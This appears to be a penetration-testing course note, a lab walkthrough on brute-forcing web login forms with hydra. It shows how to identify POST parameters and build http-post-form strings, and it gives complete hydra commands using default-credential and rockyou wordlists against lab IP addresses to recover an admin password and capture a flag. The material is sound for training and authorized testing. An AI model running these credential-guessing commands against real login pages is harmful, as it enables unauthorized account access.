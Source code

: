 # 👨‍⚖️ Web Forms Brute Forcing

Many admin panels have also implemented features or elements such as the [b374k shell](https://github.com/b374k/b374k) that might allow us to execute OS commands directly.

Here is a command to see all of the requests we can use in hydra:

```shell-session
hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
```

Here are some `http` modules that are interesting for us:

1. `http[s]-{head|get|post}`
2. `http[s]-post-form`

The 1st module serves for basic HTTP authentication, while the 2nd module is used for login forms, like `.php` or `.aspx` and others.

To decide which module needs to be used, we need to know if the application uses `GET` or a `POST` form. We can test it by trying to log in and pay attention to the URL. If we recognize that any of our input was pasted into the `URL`, the web application uses a `GET` form. Otherwise, it uses a `POST` form.

Our URL does not change, we know that the web application uses a `POST` form so let's use `http-post-form` module and use the "`-U`" flag to list the parameters it requires

so in our case we need:

* `URL path`, which holds the login form
* `POST parameters` for username/password
* `A failed/success login string`, which lets hydra recognize whether the login attempt was successful

```shell-session
/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:[FAIL/SUCCESS]=[success/failed string]
```

And if we do not see any error message, we can go ahead and specify something from the source code like `<form name='login'`, which should be distinct enough and will probably not exist after a successful login.

So here will be our final request:

```bash
"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"
```

to have the parameters we need we can simply go and look at the inspector panel:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

This would give us the following POST parameters:

```bash
username=test&password=test
```

Or the copy as curl would give us plenty of informations as well as the parameters we need:

<pre><code><strong>...&#x3C;SNIP>    --data-raw 'username=test&#x26;password=test'
</strong></code></pre>

and of course in burp we can also get those informations:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So the final parameters would look something like that:

```bash
"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

We can start by looking for default credentials with the `ftp-betterdefaultpasslist.txt`

And so, the FINAL PAYLOAD will come out like this:

```shell-session
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

_**Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user. Once you login, you should find a flag. Submit the flag as the answer.**_

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption><p>username=admin password=admin</p></figcaption></figure>

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 94.237.51.88 -s 52477 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<input name='username'" -V
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>
